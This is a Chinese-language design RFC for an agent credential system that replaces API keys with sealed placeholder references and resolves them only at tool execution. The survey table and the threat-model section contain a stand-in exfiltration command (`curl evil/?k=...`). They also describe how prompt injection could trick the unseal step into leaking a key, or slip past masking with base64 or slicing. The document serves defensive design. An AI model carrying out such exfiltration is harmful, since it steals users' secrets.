

# RFC：Agent 密钥“可用不可见”（Sealed Credential References）

**Status:** Draft
**Date:** 2026-11-10
**范围:** OpenViking Gateway（`openviking_gateway`）、Harness 插件（`examples/memory-plugin-shared`、Claude Code 插件）、Privacy（只读复用，不改 Server）

---

## 1. 摘要

Agent 干活要用 API Key、Token，而今天“用”密钥的唯一办法是把明文交给模型：密钥一旦进入对话，就随每一轮请求发给模型厂商。OpenViking 的 Privacy 已经把密钥登记在 `viking://user/{id}/privacy/credential/...`，内容里用占位符引用，但它只保护**存储**，不保护**模型请求**；更糟的是，它提供给模型的 `privacy_resolve` 工具，做的正是“把占位符换成明文塞进上下文”。

本 RFC 把占位符从“只能看的遮罩”升级为“能用的引用”：模型自始至终只持有引用，引用在工具执行的那一刻才换成真值，真值不回到模型。全部设计由一个概念、两个动作、两条定律组成：

- **引用**：沿用现有占位符 `{{ov_privacy:<owner>:viking://~/privacy/credential/<target>#/values/<field>}}`，不新增语法。
- **封存（seal）**：把已登记的值换成引用。幂等、无状态、可以在任何地方做任意多次。
- **启封（unseal）**：把引用换成值。全链路只做一次，只在工具执行边界做。

两个执行点各守一条定律：**Gateway 守住“线”**（发往上游的字节里没有已登记的值），**插件守住“执行边界”**（值只存在于子进程环境里）。两层各自可用，叠加时无需协商。

---

## 2. 问题：密钥今天是怎么上行的

| # | 路径 | 说明 |
|---|---|---|
| 1 | `privacy_resolve` | MCP 工具，返回明文；工具描述明确要求模型“把返回值放进 Authorization 头”。在 Gateway 里它还是默认开放的网关工具，结果在隐藏续轮里直接发给上游 |
| 2 | 用户粘贴 | 用户把 Key 贴进对话 |
| 3 | 工具输出 | `cat .env`、`env`、`curl -v` 回显、`ov privacy get` |
| 4 | 召回与读取 | `mode=context` 的召回走还原读路径；登记时间晚于内容写入的值仍是明文；Skill 还原提示会打印 `key=value` |
| 5 | 历史重放 | 以上任意一条发生后，明文留在 transcript 里，之后每一轮都再发一遍 |

第 1 条是结构性问题：只要“使用密钥”必须经过“读出密钥”，其余防护都只是补漏。本 RFC 先拆掉这一条，再用封存兜住 2–5。

---

## 3. 调研结论

| 方案 | 模型看到 | 明文所在 | 替换发生在 | 绑定目的地 | 对 OV 的启示 |
|---|---|---|---|---|---|
| **Magpie**（本地模型网关） | `{{KIND_xxxxxxxx}}`，HMAC(值) 截断 40 bit | 网关内存的全局表、客户端 transcript | 回复里的**所有**字符串，模糊匹配（去括号、忽略大小写都还原） | 否 | 采用：确定性占位符、fail-closed（503）、带签名的块不动。**不采用“到处还原”**：它让网关成为解密预言机，表不分会话与调用方，注入一句 `curl evil/?k={{...}}` 即可换出明文 |
| **1Password `op run`** | 引用或变量名，输出被遮罩 | 子进程环境 | 进程启动时 | 否 | 采用 runner 形态。遮罩只覆盖 stdout/stderr，是第二道网不是边界 |
| **1Password Environments MCP** | 只有名字 | 不在这条通道上 | — | — | “不通过 MCP 暴露原始凭据”；可写不可读。`privacy_tree` 已符合，`privacy_resolve` 正相反 |
| **出站代理注入**（1Password×OpenShell、Claude Code sandbox mask、Managed Agents vault、fnox、Vercel） | 占位符 | 沙箱外的代理 | 出站请求，TLS 终止 | **是**：host 白名单 + 注入位置，位置不对即拒绝 | 这是防外带的正解，但需要沙箱与 TLS 终止，预留（§10） |
| **dotenvx / varlock** | 遮罩后的输出 | 子进程环境 | 进程启动时 | 否 | 流式遮罩要按“可能是某个值的前缀”保留尾部，否则跨 chunk 漏 |
| **LiteLLM / PasteGuard** | `<TYPE_n>` 计数占位符 | 请求级映射 | 回复与工具参数 | 否 | 计数式占位符依赖出现顺序，历史一变就重编号，破坏前缀缓存 |
| **Harness hooks** | — | — | — | — | Claude Code 可改写工具输入并同时要求人确认；改写输出的后置 hook 在各家都是 fail-open 或不存在，遮罩必须在源头做 |

三条贯穿性的结论：

1. **“让流程能用凭据”不等于“把凭据交给 Agent”**（1Password 原话）。授权必须是确定性的，不能交给模型判断。
2. **OV 的引用在结构上优于同类占位符**。它由 owner、target、field 构成，是密钥的“身份”而不是值的哈希：轮换后字节不变，不泄露值是否相等，不需要任何映射表，重启不丢，Gateway、插件、Server 三方天然一致。
3. **封存与启封不对称**。封存做多了没有坏处；启封做错一次就是泄露。设计应当让封存到处都是，让启封只有一处。

---

## 4. 设计原则

把系统分成两个平面：**引用面**（模型上游、对话历史、记忆、日志）和**明文面**（工具子进程）。

> **定律一（封存律）** 发往模型上游的内容对封存封闭：`seal(x) = x`。
>
> **定律二（启封律）** 启封只发生在工具执行边界，离消费进程越近越好；边界返回的内容重新封存。

由此得到一个不需要额外机制的组合规则：

- 封存幂等，所以**层与层之间不需要协商**。Gateway 入站封一次、出站再封一次、runner 的输出再封一次，结果相同；多一层只会更安全。
- 启封不可叠加，所以全链路只有一个启封点，由**离执行最近的一层**担任：有插件时是 runner（值在子进程环境里），只有 Gateway 时是“线上的工具调用”（值会进入本地 transcript）。
- **上游不变量不依赖两层是否配合**。即使启封点选错，明文也只是多落在本地一处，下一轮请求仍会被 Gateway 封存。



---

## 5. 核心概念

**引用。** 只认 `credential` 分类的规范引用。`skill`、`session` 分类与短格式不在本期范围：`session` 中历史自动抽取的值误报多，全文替换会毁掉正文。

**Catalog。** 单个用户的 `值 ↔ 引用` 双向表，只在进程内存中：

- 取 `credential` 分类当前版本的顶层字符串字段，长度不少于 6 个 Unicode 字符（与 `PrivacySanitizer` 一致）。
- 同一个值登记在多个字段时，取字典序最小的引用。不使用 `{{ov_privacy:ambiguous}}`，它无法往返。
- 匹配表由两类条目组成：**值 → 引用**，以及**已知引用 → 自身**。后者让封存跳过合法引用内部的片段（例如 target 名恰好也是某个登记值），同时不给“伪造一个占位符把明文包起来”留口子：只有 Catalog 里真实存在的引用才被保护。
- 每个值同时以原文和 JSON 转义形态入表，覆盖 `arguments` 这类“字符串里的 JSON”。

**启封条件。** 引用的 owner 是当前用户、分类是 `credential`、字段存在且非空。任何一条不满足，引用保持原样，工具调用自然失败。不做模糊匹配，写错的引用不会被“猜”成真值。

---

## 6. Gateway 层

Gateway 是到上游的唯一通道，因此定律一在这里可以被严格执行。实现上它是包在 kernel 外面的一层壳：**进来先封存，出去最后启封，kernel 内部只见引用**。anchor、回放记录、捕获、压缩摘要因此全部是引用形态，Gateway 本地存储不新增密钥明文，也不需要改 kernel。

### 6.1 开关

Context Profile（`Policy`）新增两个布尔字段，默认关闭：

| 字段 | 行为 |
|---|---|
| `seal_secrets` | 封存。模型和客户端都只看到引用 |
| `unseal_tool_calls` | 在下发给客户端的工具调用参数里启封。要求 `seal_secrets` 同时开启 |

两个字段都不接受 `X-OpenViking-Context` 覆盖（否则客户端可以自行关闭），并且读取**当前生效**的 Profile 而不是会话创建时冻结的副本，旧会话也跟随开关。

### 6.2 封存点

| 点 | 位置 | 作用 |
|---|---|---|
| S0 | `route()` 之后、`prepare()` 之前 | 入站规范化。此后 kernel 看到的一切都是引用形态；这也是启封后的工具参数在下一轮还能对上 anchor 的原因 |
| S1 | 主请求发送前 | 终扫。兜住 S0 之后才进入 body 的内容：召回文本、Profile、开启前的回放记录 |
| S2 | 压缩摘要请求发送前 | 同上 |
| S3 | 隐藏工具续轮发送前 | 同上，另外兜住网关工具的结果 |

封存是一个协议无关的递归函数，遍历 JSON 的字符串值做最长优先匹配。它不碰的内容按**协议位置**而不是字段名界定：`thinking`、`redacted_thinking`、`reasoning` 块；`signature`、`encrypted_content`；`data:` URI 与 base64 载荷。工具调用参数和工具结果从不豁免。没有命中时返回原对象，请求字节不变。

S1 的命中数单独计入请求日志（`secrets_sealed_egress`）。它不为零说明 OV 自己注入的内容里带了明文，是 §2 第 4 条路径的可观测信号。

### 6.3 启封点

启封只作用于**发给客户端的副本**，并且只进工具调用参数：助手正文和 thinking 永不启封，密钥不需要给人看。

Gateway 的 tool loop 本来就把客户端工具调用整段缓冲后再下发，启封因此只需要挂三处：下发工具调用的事件、流式终止事件携带的完整回复、非流式的最终回复。`visible`、`final`、捕获内容保持引用形态。

- 开启 `unseal_tool_calls` 时请求走 tool loop 路径，判定条件与召回提示相同（多候选、结构化输出除外）。
- “字符串里的 JSON”（`arguments`、`partial_json`）写入 JSON 转义后的值；对象形式的 `input` 写入原值。
- Responses 协议的参数 delta 可能把一个引用切在两个事件之间：命中引用的调用把完整参数放进第一个 delta，其余置空。
- 厂商侧执行的工具（`server_tool_use` 等）不启封，它们已经在上游执行过了。
- 会话因 `plugin_present` 让位时不启封：执行边界归插件（§8）。

与 Magpie 的差别在于启封的范围是收紧到最小的：只有工具参数、只认精确语法、只认调用者自己的 `credential`、没有跨请求的全局表。

### 6.4 Catalog 获取与失败语义

沿用现有 API，全部使用调用者自己的 OpenViking Key：每 30 秒至多一次 `GET /api/v1/privacy-configs/tree?category=credential` 拿到 target 与 version，只对 version 变化的 target 取值。

| 情况 | 行为 |
|---|---|
| 刷新失败，快照不超过 600 秒 | 使用快照 |
| 刷新失败，无可用快照 | 503，不发上游 |
| 没有登记任何 credential | 正常放行（与“读取失败”不同） |
| 协议路径上的 body 无法解析或被压缩 | 400 / 415 |
| 非 JSON 的 body（如文件上传） | 透传，列入已知限制 |

### 6.5 其他收口

- `seal_secrets` 开启时，网关工具目录不再提供 `privacy_resolve`。旧会话里冻结的目录由 S3 兜底：结果被封存，模型拿回的还是引用。
- `unseal_tool_calls` 开启时，会话起始说明里增加一句用法：把引用原样写进工具参数，不要索取明文。
- 请求日志只增加计数（封存数、启封数），不记录值或引用。
- Studio 的 Profile 编辑页增加这两个开关。这不是可选项：Studio 保存时只保留它认识的字段，不加的话一次保存就会把开关静默重置。

---

## 7. 插件层

插件拿不到“线”，但拿得到真正的执行边界。第一期实现 Claude Code，公共逻辑放进 `examples/memory-plugin-shared/lib`，其他 host 只需要加信封。

```text
模型写   curl -H "Authorization: Bearer {{ov_privacy:...}}" https://api.github.com/user
hook 改  node <plugin>/scripts/secret-run.mjs 'curl -H "Authorization: Bearer {{ov_privacy:...}}" ...'
runner   取值 → 引用改写为 ${OV_SECRET_0} → $SHELL -c → 输出封存 → 透传退出码
```

### 7.1 Hook：只改写，不碰明文

PreToolUse hook 不联网、不取值。它只做一件事：发现 Bash 命令里有 `credential` 引用，就把命令包进 runner。`updatedInput` 里仍然只有引用，所以 transcript、权限提示、OV 自动捕获都只见引用；hook 出任何错，命令里还是引用，调用失败但不泄露。

- **只改写含引用的命令。** 不含引用的命令完全不受影响。
- **授权交给人，不交给模型。** 默认返回 `ask`：权限提示里显示改写后的完整命令，并列出将要使用的密钥。Claude Code 按改写后的命令匹配权限规则，于是“带密钥的命令”自成一类，不会被 `Bash(curl:*)` 这样的既有放行规则顺带批准。hook 从不返回 `allow`；`secretExecApproval: inherit` 时不给出决定，沿用用户自己的规则。
- **同一个开关下拦截 `privacy_resolve`。** 返回 `deny`，理由里告诉模型把引用直接写进命令。这是 §2 第 1 条路径在插件侧的收口。
- **会话开始时告诉模型怎么用。** SessionStart 注入一句用法说明。

开关 `secretExec` 默认关闭，不允许由仓库内的 workspace 配置开启。

### 7.2 Runner：用环境变量代入，而不是文本

把明文拼进 Shell 文本有注入风险，所以 runner 把每个引用改写成对环境变量的展开，按引用所处的引号上下文决定写法：

| 上下文 | 改写为 |
|---|---|
| 未加引号 | `"${OV_SECRET_n}"` |
| 双引号内 | `${OV_SECRET_n}` |
| 单引号内 | `'"${OV_SECRET_n}"'`（闭合、展开、重开） |
| `$'...'` 内 | `'"${OV_SECRET_n}"$'` |
| 不带引号定界符的 heredoc | `${OV_SECRET_n}` |
| 带引号定界符的 heredoc | 拒绝执行，提示改用不带引号的定界符 |

这个做法的关键性质是**安全性不依赖引号扫描是否完备**。变量展开的结果不会被 Shell 再次解析成语法，所以扫描器判断错了（例如嵌套的命令替换），后果只是命令拿到一个没展开的字面量而失败，不会注入，也不会泄露。扫描器因此可以保持很小。

其余语义：

- **取值**：每个引用调用一次 `POST /api/v1/privacy-configs/resolve`，owner 由 Server 校验。
- **fail-closed**：任何引用取不到值，runner 以非零码退出，不执行命令；错误信息里只有引用。
- **输出封存**：stdout 和 stderr 里出现的值被换回**引用**，而不是 `[REDACTED]`。输出因此留在引用面里，与 Gateway 封存的结果字节一致，模型也能看出是哪个密钥被回显了。跨 chunk 的命中靠保留“可能是某个值的前缀”的尾部解决，没有疑似前缀时零延迟。
- 透传 stdin、退出码和信号。没有“关闭遮罩”的选项。

遮罩必须在 runner 里做而不是靠后置 hook：Claude Code 的 `updatedToolOutput` 形状不符时会静默回退到原始输出，后台命令的输出走文件，Codex 与 Cursor 根本不能改写 Shell 输出。

### 7.3 插件层的边界

插件只覆盖“模型主动使用引用”这一条路径。用户粘贴的明文、`cat .env` 的输出、召回内容，在 Claude Code、Codex、Cursor 上都没有可靠的 hook 能改写。所以**只装插件不能宣称密钥不上行**，完整的定律一需要 Gateway。

---

## 8. 两层组合与明文落点

| 部署 | 上游 | 本地 transcript | 启封点 | 说明 |
|---|---|---|---|---|
| Gateway `seal_secrets` | 无明文 | 用户粘贴与工具输出的明文原样保留 | 无 | 模型写出的引用不会被换成值，适合只想“不上行”的场景 |
| Gateway `seal_secrets` + `unseal_tool_calls` | 无明文 | 另含启封后的工具参数 | 线上的工具调用 | 不需要插件。本地留明文是这一模式的固有代价 |
| 插件 `secretExec` | 只保护经 runner 的路径 | 经 runner 的命令与输出只有引用 | runner | 无全量兜底 |
| Gateway `seal_secrets` + 插件 `secretExec` | 无明文 | 经 runner 的路径只有引用 | runner | 推荐组合 |

Gateway 识别到插件（`plugin_present`）时本来就让位，不注入、不跑工具；启封同理让给插件。因此推荐组合不需要任何额外配置：Gateway 负责线，runner 负责执行边界。runner 输出的是引用，经过 Gateway 时无需再处理。

---

## 9. 威胁模型与已知限制

本方案防的是**误泄露**：密钥因为粘贴、文件读取、命令输出、召回而混入上下文，然后被发给模型厂商。

| 不在承诺范围内 | 原因 |
|---|---|
| 恶意模型或 prompt injection 的主动外带 | 模型可以写 `curl evil/?k={{...}}` 让启封点替它取值，也可以用 `base64`、切片绕过字面匹配。能挡住它的是出站目的地绑定（§10）；本期的缓解是 runner 的人工确认，以及 Gateway 的启封默认关闭 |
| 未登记的密钥 | 新值探测误报过多，OV 已在代码中停用，本方案不重新引入 |
| 同用户进程读取 OV 凭据 | Agent 的 Shell 与用户同权，可以读 `ovcli.conf` 或执行 `ov privacy resolve`。后者的输出若经过 Gateway 仍会被封存 |
| 引用本身携带的元数据 | 上游能看到 user id 与 `github/pat` 这样的名字。建议 target 不使用敏感名称 |

已知限制：

| 限制 | 影响 |
|---|---|
| 只匹配字面值及其 JSON 转义 | Base64、URL 编码、切片后的值会漏 |
| 只匹配当前版本 | 轮换前的旧值若还留在历史里会明文上行；OV 的轮换也不撤销第三方的旧密钥 |
| 带签名的 thinking 不改写 | 开启前已进入签名块的值仍会上行，改写会导致签名校验失败 |
| 会话中途开启、新增或轮换密钥 | 历史被改写一次，造成一次前缀缓存未命中 |
| Responses 使用服务端状态（`previous_response_id`） | 请求不走增强路径，增量内容仍被封存，但不启封 |
| 图片、文件、非 JSON 请求体 | 不处理 |
| Gateway 启封是文本代入 | 值含 Shell 特殊字符时命令语义不保证；runner 用环境变量，没有这个问题 |
| 同一个值登记在多个字段 | 启封后再封存可能回到另一个引用，anchor 对不上，退化为一次缓存未命中 |
| runner 包裹后的命令 | `cd` 不延续到后续命令，Shell 快照里的 alias 和函数不可用；沙箱内需要能访问 OV Server |

---

## 10. 预留

按“成本低、价值明确”到“需要新基础设施”排序：

- **其他 Harness。** Codex（改写须搭配 `allow`，审批按改写后的命令计算）、pi 与 OpenCode（可原地改参，OpenCode v2 与 pi 还能直接注入环境变量，免包裹）。Cursor 不强制 `ask`，需实测。
- **编码变体。** 整值的 Base64、base64url、hex、百分号编码一并入表。
- **铸造（mint）。** runner 把命令输出登记为新密钥并只回显引用（例如 `gh auth token`、OAuth 换出的 token）。这样引用面对“产生密钥”也封闭，对应 1Password MCP 的可写不可读。
- **`privacy_resolve` 的去留。** 在 Server 侧默认不向模型可见的 MCP 暴露，或改为只返回用法。本期不改 Server。
- **Skill 短格式引用。** `{{ov_privacy:skill:<name>:<field>}}` 映射到字段 URI 后同样可执行。
- **Catalog 批量接口。** 一次返回全部 `credential` 值，带 ETag，可纳入历史版本，用于封存轮换前的旧值。
- **插件侧封存。** Claude Code 的 `updatedToolOutput` 与 mods（`prompt.submit`、`session.append`）可以改写输出、用户输入和落盘内容，但都 fail-open，只能作为第二层；OpenCode 与 pi 有请求前的改写接缝，可以实现“无代理的网关”。
- **Gateway 线上包裹。** Gateway 把含引用的 Shell 工具调用改写成 runner 调用，在没有插件时也不留本地明文。需要本地装有 runner，并识别各 Harness 的 Shell 工具名。
- **按工具启封。** `unseal_tool_calls` 只对列出的工具名生效。Shell 可用时意义有限。
- **出站目的地绑定。** 在 privacy 的 `labels` 里声明允许的 host，由出站代理按 host 与注入位置替换。可以先桥接 Claude Code 的 sandbox mask 模式（它只信任用户级配置，正好由插件生成），自建 TLS 终止代理放在最后。

---

## 11. 实施与验收

| 分支 | 内容 |
|---|---|
| `rfc/agent-secret-use` | 本 RFC |
| `feat/gateway-secret-seal` | `openviking_gateway/secret_guard.py`、`Policy` 字段、三个发送点与 tool loop 接线、工具目录、会话说明、Studio、文档、`tests/gateway` |
| `feat/plugin-secret-exec` | `memory-plugin-shared/lib/secret-exec.mjs`、Claude Code 的 hook 与 runner、配置项、SessionStart 说明、文档、测试 |

验收重点：

- 带已登记值的 Anthropic、Chat、Responses 请求到达 fake upstream 时只有引用；流式与非流式、主请求、摘要、隐藏续轮都覆盖。
- 封存确定且幂等；未命中时请求字节不变；同一会话多轮之间 anchor 稳定。
- 启封只进客户端工具调用参数，客户端拿到的 JSON 合法；捕获与回放里仍是引用；启封后的下一轮请求能续上会话。
- Catalog 不可用时返回 503，没有任何上游调用。
- Hook：只在有引用时改写，输出里没有明文，`privacy_resolve` 被拒绝。
- Runner：各引号上下文、带特殊字符的值、跨 chunk 遮罩、退出码与信号、fail-closed。

---

## 12. 待讨论

1. `privacy_resolve` 是否应当在 Server 侧默认下线，或改为只对 CLI 可用。
2. 新建 Profile 是否默认开启 `seal_secrets`。它的代价是每个用户每 30 秒一次 Privacy 读取，以及 Privacy 不可用时请求失败。
3. 是否为封存提供 `skill` 分类。它的值来自 LLM 抽取，精度低于用户显式登记的 `credential`。
